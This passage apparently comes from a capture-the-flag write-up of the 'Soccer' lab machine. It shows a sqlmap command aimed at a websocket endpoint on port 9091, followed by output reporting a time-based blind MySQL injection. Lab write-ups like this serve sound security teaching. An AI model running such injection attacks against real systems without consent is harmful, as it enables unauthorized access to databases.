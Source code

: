 The page was making a websocket request to port 9091 to check if the ticket existed or not. 

I tried SQL Injection, and it worked. 

![SQL Injection](/assets/images/2023/06/Soccer/WebSocketSQLi.png "SQL Injection")

I was about to write a script to extract the data, but I decided to check if sqlmap could exploit websockets. 

```bash
$ sqlmap -u "ws://soc-player.soccer.htb:9091" --data='{"id":"123*"}'
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.7#stable}
|_ -| . [']     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not re
sponsible for any misuse or damage caused by this program

[*] starting @ 19:16:51 /2023-01-25/

custom injection marker ('*') found in POST body. Do you want to process it? [Y/n/q]
JSON data found in POST body. Do you want to process it? [Y/n/q]
[19:16:53] [INFO] testing connection to the target URL
[19:16:56] [INFO] testing if the target URL content is stable
[19:16:56] [INFO] target URL content is stable
[19:16:56] [INFO] testing if (custom) POST parameter 'JSON #1*' is dynamic
[19:16:56] [WARNING] (custom) POST parameter 'JSON #1*' does not appear to be dynamic
[19:16:57] [WARNING] heuristic (basic) test shows that (custom) POST parameter 'JSON #1*' might not be injectable
[19:16:57] [INFO] testing for SQL injection on (custom) POST parameter 'JSON #1*'
[19:16:57] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[19:16:57] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[19:16:57] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[19:16:58] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
[19:16:59] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)'
[19:16:59] [INFO] testing 'Oracle AND error-based - WHERE or HAVING clause (XMLType)'
[19:17:00] [INFO] testing 'Generic inline queries'
[19:17:00] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'
[19:17:00] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries (comment)'
[19:17:01] [INFO] testing 'Oracle stacked queries (DBMS_PIPE.RECEIVE_MESSAGE - comment)'
[19:17:01] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[19:17:12] [INFO] (custom) POST parameter 'JSON #1*' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n]
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n]
[19:17:24] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[19:17:24] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
```